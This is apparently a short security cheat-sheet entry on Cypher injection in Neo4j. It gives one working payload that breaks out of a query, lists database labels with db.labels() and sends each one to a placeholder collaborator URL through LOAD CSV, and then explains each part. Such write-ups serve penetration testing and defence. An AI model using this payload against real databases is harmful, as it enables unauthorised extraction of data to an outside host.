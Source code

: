 # Cypher Injection (neo4j)



## Example

`.*' | o ] AS filteredOrganisations CALL db.labels() YIELD label LOAD CSV FROM 'http://<collaborator-url-here>/' + label AS r //`

> **Explanation of the payload**

`.*' | o ] AS filteredOrganisations`

This whole part was to close the current query partially. The above part partially closed the current query and helped adding new clauses to the original query.

`CALL db.labels() YIELD label`

The CALL clause is used to evaluate a subquery, here the subquery is calling db.labels(), a built-in procedure which returns a list of all labels used in the database. YIELD clause stores the returned list in the variable “label”.

`LOAD CSV FROM 'http://<collaborator-url-here>/' + label AS r //`

LOAD CSV is a clause used to load a csv file from a user defined location via the FROM keyword. Here the LOAD CSV makes a request to our burp collaborator client appending one element of the list “label” at a time. As a result multiple requests were sent to my burp collaborator client and all requests had different label names appended to the requested endpoint. The end part ‘AS r’ was only used because the query was breaking constantly without it, all it does is loads the csv file as “r” and the final two forward slashes ‘//’ were used to comment out the rest of the query in the same line.

## References

* [https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8](https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8)


